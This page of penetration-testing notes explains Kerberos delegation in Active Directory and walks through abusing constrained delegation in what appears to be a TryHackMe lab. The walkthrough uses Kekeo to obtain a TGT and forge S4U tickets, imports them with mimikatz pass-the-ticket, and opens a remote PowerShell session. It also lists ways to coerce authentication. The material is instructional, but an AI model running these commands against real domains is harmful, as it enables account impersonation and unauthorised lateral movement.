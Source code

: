 
## General

Kerberos delegation is a feature that allows a service or user to request a new Kerberos ticket on behalf of another user, allowing the service or user to authenticate as the other user to a different service. This allows the original user to access a service through a trusted intermediary, without having to provide their own credentials. This process is also known as "impersonation" or "double-hop authentication."

Kerberos delegation is useful in scenarios where a user needs to access a service that is not directly reachable, such as when a user needs to access a resource on a remote server through a middle-tier service. By using delegation, the middle-tier service can authenticate to the remote server on behalf of the user, allowing the user to access the remote resource without having to provide their own credentials.


- Kerberos delegation ((Resource-Based)Constrained, Unconstrained)
	- Constrained delegation: A user is granted permission to authenticate to a specific service as another user. The following are examples of services that can be configured for delegation:
		- HTTP - Used for web applications to allow pass-through authentication using AD credentials.  
		- CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.  
		- LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.  
		- HOST - Allows delegation of account for all activities on the host.  
		- MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
	
	- Unconstrained delegation: A user/service is granted permission to authenticate to any service as another user.
	
	- Resource-Based Constrained Delegation: Instead of specifying which object can delegate to which service, the service now specifies which objects can delegate to it. This allows the service owner to control who can access it. Let's say that we have permission to configure RBCD for a service. This means we have the ability to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute for the AD Object. 

- Double Hop issue
	In Kerberos, a "double hop" occurs when a user authenticates to a server, and then the server attempts to authenticate to another server on behalf of the user.
	
	How can we force a connection to a server with unconstrained delegation? I’ll give you a few options:
	
	-   Responder
	-   ARP Poisoning
	-   Rogue DHCPv6
	-   Phish an adin
	-   SpoolSample

TGS = Allows for the "borrowing" of a ticket
TGT = Creation of a ticket

===Accounts that have delegation enabled are of interest to attackers, as they allow the account to authenticate to other services on behalf of other users.===


## Constrained Delegation Exploitation

Powershell (Enumerate available delegations)
```
Get-NetUser -TrustedToAuth
```

Get access to an account that has Constrained or Unconstrained delegation (Credential (plaintext, NTLM, ...))


## Kerberos delegation attack

We will use a combination of [Kekeo](https://github.com/gentilkiwi/kekeo) and [Mimikatz](https://github.com/gentilkiwi/mimikatz/security).

Powershell (Launch Kekeo)
```
PS C:\> C:\Tools\kekeo\x64\kekeo.exe
```

Powershell (Example: Generate a TGT that can be used to generate tickets for the HTTP and WSMAN services) ---> Delegation on those services
```
kekeo # tgt::ask /user:svcIIS /domain:AD_DOMAIN /password:XXXXXXXX
```
-   user - The user who has the constrained delegation permissions.
-   domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
-   password - The password associated with the svcIIS account.

Powershell (forge TGS requests for the account we want to impersonate)
```
kekeo # tgs::s4u /tgt:TGT_WE_JUST_CREATED /user:ACCOUNT_TO_IMPERSONATE /service:http/SERVER_DOMAINE_NAME
```
-   tgt - We provide the TGT that we generated in the previous step.
-   user - The user we want to impersonate. Since t2_ accounts have administrative access over workstations, it is a safe assumption that t1_ accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.  
-   service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.

Powershell (Import the tickets in mimikats)
```
PS C:\> C:\Tools\kekeo\x64\mimikatz.exe

mimikatz # privilege::debug
mimikatz # kerberos::ptt TICKET_TO_IMPORT(1)
mimikatz # kerberos::ptt TICKET_TO_IMPORT(2)

exit
```

Powershell (Verify if the tickets were imported to the account)
```
klist
```

Create our PSSession on THMSERVER1 (Specific to this example were we have delegation for HTTP and WSMAN)
```
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]:
```
